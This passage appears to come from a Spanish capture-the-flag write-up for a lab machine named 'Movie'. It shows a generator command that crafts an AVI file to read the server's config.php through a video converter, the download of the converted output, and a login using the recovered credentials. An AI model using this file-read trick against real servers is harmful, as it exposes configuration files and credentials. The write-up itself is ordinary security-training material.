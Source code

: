 ```bash
❯ ./gen.py file:///var/www/html/data/config.php config.avi

❯ wget http://movie.hmv/converted_videos/config.mp4 
--2023-03-14 22:00:47--  http://movie.hmv/converted_videos/config.mp4
Resolving movie.hmv (movie.hmv)... 10.0.2.27
Connecting to movie.hmv (movie.hmv)|10.0.2.27|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 563221 (550K) [video/mp4]
Saving to: ‘config.mp4’

config.mp4 100%[================================================>] 550.02K  --.-KB/s    in 0.002s  

2023-03-14 22:00:47 (228 MB/s) - ‘config.mp4’ saved [563221/563221]
```
![](/img/Movie/movie3.png)

Entramos por el login con el usuario y contrasena y tenemos acceso.

![](/img/Movie/movie4.png)
